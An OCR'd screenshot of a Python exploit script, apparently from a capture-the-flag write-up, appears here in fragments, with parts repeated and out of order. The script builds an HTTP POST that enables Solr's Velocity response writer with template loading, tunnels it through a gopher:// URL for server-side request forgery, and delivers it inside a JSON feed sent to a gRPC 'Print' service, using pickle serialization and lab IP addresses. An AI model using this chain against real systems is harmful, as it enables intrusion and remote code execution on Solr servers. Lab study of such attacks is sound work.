 ```
            "id": "2",
            "content_text": "Queue jobs"
        }},
        {{
            "id": "1",
            "content_text": "Failed items"
        }}
    ]
}}"""

post = '''POST /solr/staging/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
'''

host = "10.10.14.9"
host = "localhost"
target = f"gopher://{host}:8983/_"
http1 = target + quote(post, safe='')

channel = grpc.insecure_channel('10.10.10.201:9000')
stub = feedengine_pb2_grpc.PrintStub(channel)
payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http1)))
content = feedengine_pb2.Content(data=payload_ser)
response = stub.Feed(content)
print(response)

```

And:

```

import pickle
import sys
import feedengine_pb2
import feedengine_pb2_grpc
from urllib.parse import quote

grpc_payload = """{{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "",
    "feed_url": "{url}",
    "items": [
        {{
            "id": "2",
            "content_text": "Queue jobs"
        }},
        {{
            "id": "1",
            "content_text": "Failed items"
```